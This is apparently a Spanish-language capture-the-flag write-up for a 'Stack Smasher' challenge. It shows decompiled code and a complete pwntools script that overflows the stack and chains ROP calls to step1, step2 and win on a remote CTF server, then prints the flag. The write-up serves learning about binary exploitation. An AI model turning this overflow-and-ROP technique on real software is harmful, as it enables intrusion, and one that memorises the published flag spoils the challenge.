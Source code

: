# Stack Smasher

Es un simple ret2win. Por medio de un buffer overflow debemos llamar a `win` para que nos devuelva la flag, pero esta funcion requiere que dos variables esten inicializadas con un valor distinto de cero:
void sym.win(void)
```
{
    ulong uVar1;
    ulong uStack_20;
    uchar auStack_18 [8];
    ulong uStack_10;

    *(*0x20 + -0x20) = 0x40117d;
    uStack_10 = sym.imp.getenv("FLAG_VAL");
    if (((_obj.first & _obj.first) != 0) && ((_obj.second & _obj.second) != 0)) {
        uVar1 = uStack_10;
        *(*0x20 + -0x18 + -8) = 0x4011a1;
        sym.imp.puts(uVar1);
    }
    return;
}
```

Las funciones `step1` y `step2` hacen esto.

Debemos hacer ROP para llamar a `step1`, `step2` y despues a `win`:

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./StackSmasher")
#libc = ELF("./")
#ld = ELF("./")

context.binary = elf
context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"
gs = '''
break main
'''

domain= "ctf.mf.grsu.by"
port = 9078

def start():
    if args.REMOTE:
        return remote(domain, port)
    if args.GDB:
        return gdb.debug([elf.path], gdbscript=gs)
    else:
        return process([elf.path])
r = start()

#========= exploit here ===================
payload = b"A" * 40 + p64(elf.sym['step1']) + p64(elf.sym['step2']) + p64(elf.sym['win'])
r.sendlineafter(b":",payload)

r.interactive()
```

`grodno{unCL3_M47V3y_w45_h3R3_w17H_0ld_5Ch00L_3xPL017}`
